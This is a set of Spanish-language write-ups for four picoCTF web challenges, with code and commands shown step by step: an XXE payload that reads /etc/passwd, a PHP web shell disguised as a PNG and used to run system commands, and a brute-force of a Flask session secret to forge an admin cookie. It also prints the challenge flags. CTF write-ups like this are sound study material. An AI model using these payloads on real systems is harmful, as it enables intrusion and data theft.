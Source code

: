 # MatchTheRegex

How about trying to match a regular expressionThe website is running [here](http://saturn.picoctf.net:58980/).
Access the webpage and try to match the regular expression associated with the text field

1. Ingresamos al sitio web
2. Revisamos el código fuente
3. Buscamos el código que válida la entrada
```html
<script>
	function send_request() {
		let val = document.getElementById("name").value;
		// ^p.....F!? EXPRESIÓN REGULAR
		fetch(`/flag?input=${val}`)
			.then(res => res.text())
			.then(res => {
				const res_json = JSON.parse(res);
				alert(res_json.flag)
				return false;
			})
		return false;
	}

</script>
```
4. Buscamos un texto que coincida con la expresión regular
```
parametro: ^p.....F!?
expresión: p12345F
```
5. Obtenemos la bandera
```
picoCTF{succ3ssfully_matchtheregex_2375af79}
```

**Referencias:**
- [Video explicación](https://www.youtube.com/watch?v=YZemkSTN50U)
- [regexr](https://www.youtube.com/redirect?event=video_description&redir_token=QUFFLUhqbmNFS2ZlLVdkSEx0MkZRQW9uZ0EtRmEzQ2Fud3xBQ3Jtc0tsNDJOVTk4dFVhd2N4WTd1VEE4cGlLZXJpOGZuakxNMzFra0xFLUpZeFJLSWhJRnVaTVdBU1FXNlpfZElmcnVYTjFKTTc1d0VDSEZ6LWREY1psQlRqYzVjNEhHT0gzeERKOTJlejN6dHRpZmladHR0bw&q=https%3A%2F%2Fregexr.com%2F&v=YZemkSTN50U)


# SOAP

The web project was rushed and no security assessment was done. Can you read the /etc/passwd file? [Web Portal](http://saturn.picoctf.net:62781/)
XML external entity Injection

1. Abrimos el sitio web
2. Revisamos el código fuente 
3. Abrimos BurpSuite, revisamos el historial http en el proxy y damos click en los menús que se muestran en la página
4. Revisamos uno de los POST, click derecho, Send to Repeater, Repeater en el segundo menú, jugamos con los valores de ID para ver los valores permitidos
5. Usamos un pyload para generar un error y saber si la aplicación es vulnerable a XXE
```js
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [
	<!ENTITY test "XEE VULNERABLE">
	]>
<data><ID>&test;</ID></data>
```

```
HTTP/1.1 200 OK
Server: Werkzeug/2.3.6 Python/3.8.10
Date: Fri, 04 Apr 2025 03:24:59 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 26
Connection: close

Invalid ID: XEE VULNERABLE
```

6. Usamos otro pyload para leer archivos del sistema y obtener la bandera
```js
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [
	<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<data><ID>&xxe;</ID></data>
```

```
picoCTF{XML_3xtern@l_3nt1t1ty_e79a75d4}
```

**Referencias:**

- [Video](https://www.youtube.com/watch?v=b1pGlutUL34)


# Trickster

I found a web app that can help process images: PNG images only! Try it [here](http://atlas.picoctf.net:52873/)!

1. Ingresamos al sitio web
2. Al parecer sólo se pueden subir imágenes png
3. Al revisar robots descubrimos una carpeta uploads y podemos acceder a las imágenes png que hayamos subido. También encontramos un archivo txt
4. Abrimos terminal, creamos un código php y le cambiamos la extensión a png
```
nano webshell.php
```

```php
PNG //Para engañar a la aplicación
<?php
if(isset($_GET['cmd'])){
	echo "<pre>";
	system($_GET['cmd']);
	echo "</pre>";
}
?>
```

```
mv webshell.php webshell.png.php
```

Comprobamos que los magic bites sí coincidan con los de los archivos png
```
xxd webshell.png.php
```

```
00000000: 504e 470a 3c3f 7068 700a 6966 2869 7373  PNG.<?php.if(iss
00000010: 6574 2824 5f47 4554 5b27 636d 6427 5d29  et($_GET['cmd'])
00000020: 297b 0a09 6563 686f 2022 3c70 7265 3e22  ){..echo "<pre>"
00000030: 3b0a 0973 7973 7465 6d28 245f 4745 545b  ;..system($_GET[
00000040: 2763 6d64 275d 293b 0a09 6563 686f 2022  'cmd']);..echo "
00000050: 3c2f 7072 653e 223b 0a7d 0a3f 3e0a       </pre>";.}.?>.
```

5. Subimos el archivo a la aplicación
6. Vamos a la carpeta de uploads y buscamos el archivo. El archivo recibe comandos cmd y los ejecuta
```
/uploads/webshell.png.php?cmd=ls

output: 
webshell.png.php
```

```
/uploads/webshell.png.php?cmd=ls ..

output: 
HFQWKODGMIYTO.txt
index.php
instructions.txt
robots.txt
uploads
```

```
/uploads/webshell.png.php?cmd=cat ../HFQWKODGMIYTO.txt

/* picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_9ae8fb17} */
```


**Referencias:**
- [Video](https://www.youtube.com/watch?v=co8MZmviC1U&t=92s)


# Most Cookies

Alright, enough of using my own encryption. Flask session cookies should be plenty secure! [server.py](https://mercury.picoctf.net/static/c135543530f7dc24c3a6ecaeb44a81b8/server.py) [http://mercury.picoctf.net:65344/](http://mercury.picoctf.net:65344/)
How secure is a flask cookie?

1. Ingresamos a la página
2. Accedemos con la sugerencia de ingreso y revisamos las cookies
3. Revisamos la cookie de session 
```
eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.Z-8FlQ.uE7bFv977aR24b8cziZuaRWguyg
```
4. Decodificamos la cookie
```
echo eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.Z-8FlQ.uE7bFv977aR24b8cziZuaRWguyg | base64 -d

output: {"very_auth":"snickerdoodle"}base64: entrada inválida
```
5. Revisamos el código que nos proporcionaron al inicio del reto
```
wget "https://mercury.picoctf.net/static/c135543530f7dc24c3a6ecaeb44a81b8/server.py"

cat server.py
```
6. En el código encontramos las palabras con las se puede ingresar, las copiamos y las guardamos en un diccionario para hacer un ataque de fuerza bruta
```
pluma server.py
```

```python
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]

app.secret_key = random.choice(cookie_names)
```

```
cookies.txt

snickerdoodle 
chocolate chip 
oatmeal raisin 
gingersnap 
shortbread 
peanut butter 
whoopie pie 
sugar 
molasses 
kiss 
biscotti 
butter 
spritz 
snowball 
drop 
thumbprint 
pinwheel 
wafer 
macaroon 
fortune 
crinkle 
icebox 
gingerbread 
tassie 
lebkuchen 
macaron 
black and white 
white chocolate macadamia
```

7. Hacemos el ataque de fuerza bruta
```
flask-unsign --unsign --cookie "eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.Z-9FJQ.ghYwXIIlabTut47IUr03DhReHB0" --wordlist cookies.txt
```

```
[*] Session decodes to: {'very_auth': 'snickerdoodle'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 28 attemptscadamia
'fortune'
```

8. Creamos la nueva cookie y la usamos para sustituir la anterior en el navegador
```
flask-unsign --sign --cookie "{'very_auth': 'admin'}" --secret 'fortune'
```

```
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Z-9IHQ.xGV1Y_ykIGoEzub7P-1A5GDQyaA
```

```
curl -s http://mercury.picoctf.net:65344 -H 'Cookie: eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Z-9IHQ.xGV1Y_ykIGoEzub7P-1A5GDQyaA' ! grep -oE "picoCTF{.*?}"
```

9. Obtenemos la bandera
```
picoCTF{pwn_4ll_th3_cook1E5_25bdb6f6}
```


**Referencias:**

- [Video](https://www.youtube.com/watch?v=ufs1xqSQCUM&t=340s)